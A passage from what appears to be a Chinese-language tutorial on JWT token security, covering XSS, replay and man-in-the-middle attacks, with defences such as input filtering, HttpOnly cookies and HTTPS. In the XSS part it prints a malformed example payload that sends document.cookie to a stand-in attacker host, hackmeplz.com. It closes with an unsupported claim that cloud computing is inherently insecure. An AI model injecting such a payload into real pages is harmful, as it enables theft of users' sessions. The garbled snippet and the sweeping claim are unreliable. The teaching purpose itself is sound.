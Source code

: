 #### 5.2.1.3 对 Token 认证的五点认识

对Token认证机制有5点直接注意的地方：

- (1) 一个Token就是一些信息的集合；
- (2) 在Token中包含足够多的信息，以便在后续请求中减少查询数据库的几率；
- (3) 服务端需要对Cookie和HTTP Authrorization Header进行Token信息的检查；
- (4) 基于上一点，你可以用一套Token认证代码来面对浏览器类客户端和非浏览器类客户端；
- (5) 因为token是被签名的，所以我们可以认为一个可以解码认证通过的Token是由我们系统发放的，其中带的信息是合法有效的；

#### 5.2.1.4 基于 JWT 的 Token 认证的安全问题

##### 确保验证过程的安全性

如何保证用户名/密码验证过程的安全性；因为在验证过程中，需要用户输入用户名和密码，在这一过程中，用户名、密码等敏感信息需要在网络中传输。因此，在这个过程中建议采用HTTPS，通过SSL加密传输，以确保通道的安全性。

##### 如何防范 XSS Attacks?

浏览器可以做很多事情，这也给浏览器端的安全带来很多隐患，最常见的如：XSS攻击：跨站脚本攻击(Cross Site Scripting)；如果有个页面的输入框中允许输入任何信息，且没有做防范措施，如果我们输入下面这段代码：

```html
<img src="x" /> a.src='https://hackmeplz.com/yourCookies.png/?cookies=’
+document.cookie;return a}())"
```

这段代码会盗取你域中的所有cookie信息，并发送到 hackmeplz.com；那么我们如何来防范这种攻击呢？

###### XSS 攻击代码过滤

移除任何会导致浏览器做非预期执行的代码，这个可以采用一些库来实现（如：js下的js-xss，JAVA下的XSS HTMLFilter，PHP下的TWIG）；如果你是将用户提交的字符串存储到数据库的话（也针对SQL注入攻击），你需要在前端和服务端分别做过滤；

###### 采用 HTTP-Only Cookies

通过设置Cookie的参数： HttpOnly; Secure 来防止通过JavaScript 来访问Cookie；

注：在实际使用中，我们可以使FireCookie查看我们设置的Cookie 是否是HttpOnly。

##### 如何防范 Replay Attacks?

所谓重放攻击就是攻击者发送一个目的主机已接收过的包，来达到欺骗系统的目的，主要用于身份认证过程。比如在浏览器端通过用户名/密码验证获得签名的Token被木马窃取。即使用户登出了系统，黑客还是可以利用窃取的Token模拟正常请求，而服务器端对此完全不知道，因为JWT机制是无状态的。

针对这种情况，有几种常用做法可以用作参考：

- (1) 时间戳 + 共享秘钥
- (2) 时间戳 + 共享秘钥 + 黑名单 （类似[Zendesk](https://support.zendesk.com/hc/en-us/articles/203663816-Setting-up-single-sign-on-with-JWT-JSON-Web-Token-)的做法）

注：[这两种做法的具体实现参考](http://www.cnblogs.com/xiekeli/p/5607107.html)

##### 如何防范 MITM （Man-In-The-Middle）Attacks?

所谓 MITM 攻击，就是在客户端和服务器端的交互过程被监听，比如像可以上网的咖啡馆的 WIFI 被监听或者被黑的代理服务器等；

针对这类攻击的办法使用 HTTPS ，包括针对分布式应用，在服务间传输像 Cookie 这类敏感信息时也采用 HTTPS ；所以云计算在本质上是不安全的。
